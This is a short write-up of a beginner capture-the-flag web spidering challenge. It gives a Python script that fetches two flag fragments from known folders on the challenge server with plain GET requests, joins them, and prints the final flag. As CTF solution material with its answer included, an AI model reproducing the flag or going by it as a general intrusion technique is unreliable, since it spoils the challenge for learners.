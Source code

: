 # Web Spidering Challenge – Writeup

## Challenge Description
We are tasked with retrieving a flag that is split across two different files hosted on a challenge server. The files are hidden inside different folders, and the goal is to combine their contents to reconstruct the complete flag.

## Exploit
```python
import requests

url1 = 'http://spider.challs.olicyber.it/supe3s3cretf0lder/flag1.txt'
url2 = 'http://spider.challs.olicyber.it/standardNonSecretFolder/flag2.txt'

def fetch_flag_part(url):
        response = requests.get(url, timeout=5)
        return response.text.strip()

part1 = fetch_flag_part(url1) 
part2 = fetch_flag_part(url2) 

if part1 and part2:
    part1_cleaned = part1.split('\n')[0] 
    full_flag = part1_cleaned + part2
    print(full_flag)
else:
    print("error")
````

## Code Analysis

1. **Libraries**
   The script uses the `requests` library to send HTTP GET requests.

2. **Target URLs**
   Two URLs are provided:

   * `url1` points to `flag1.txt` inside `supe3s3cretf0lder`.
   * `url2` points to `flag2.txt` inside `standardNonSecretFolder`.

3. **Fetching Function**
   The `fetch_flag_part` function:

   * Sends a GET request to the given URL.
   * Returns the response text with whitespace removed using `.strip()`.

4. **Flag Reconstruction**

   * The script downloads both parts of the flag.
   * `part1_cleaned = part1.split('\n')[0]` ensures only the first line of `flag1.txt` is used (in case of extra whitespace/newlines).
   * Concatenates `part1_cleaned + part2` to rebuild the full flag.

5. **Output**
   If both parts are successfully retrieved, the complete flag is printed. Otherwise, it prints `"error"`.

## Exploitation Steps

1. Access the hidden folders on the challenge server.
2. Retrieve both `flag1.txt` and `flag2.txt`.
3. Clean and concatenate them.
4. Print the resulting flag.

## Solution

Running the script successfully fetches the two parts of the flag and reconstructs the final result:

```
flag{s3mbr1_un0_sp1d3R}
```

## Key Takeaway

This challenge tests **basic web enumeration and file retrieval**. By exploring non-standard folders and combining information, we reconstruct the hidden flag.
